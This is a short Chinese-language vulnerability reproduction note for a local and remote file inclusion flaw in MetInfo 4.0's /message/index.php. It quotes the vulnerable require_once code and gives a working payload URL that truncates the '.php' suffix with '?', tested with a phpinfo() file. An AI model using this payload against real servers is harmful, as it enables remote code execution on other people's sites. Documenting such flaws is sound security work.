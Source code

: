 漏洞发生在/message/index.php



```php
if (!$metid) $metid = 'index';
if ($metid != 'index') {
    require_once $metid . '.php';
} else {
    ...
}
```

这段代码的意思是，如果$metid未设置的话，那么$metid的值默认为index，如果设置了$metid的值的话，那么包含$metid.php文件；$metid通过get传参获得



### 漏洞复现

文件包含payload，**需要用"?"来把后面拼接的"".php"截断**

```php
http://127.0.0.1/MetInfo4.0/message/index.php?metid=http://127.0.0.1/1.txt?
```



#### 本地文件包含

在服务器根目录下创建一个1.txt文件

```php
<?php phpinfo();?>
```

<img src="./img/1.png">

成功利用

<img src="./img/3.png">

#### 远程文件包含

注意：需要打开php的allow_url_include的参数

<img src="./img/2.png">

远程服务器上创建一个1.txt文件

<img src="./img/4.png">

成功利用

<img src="./img/5.png">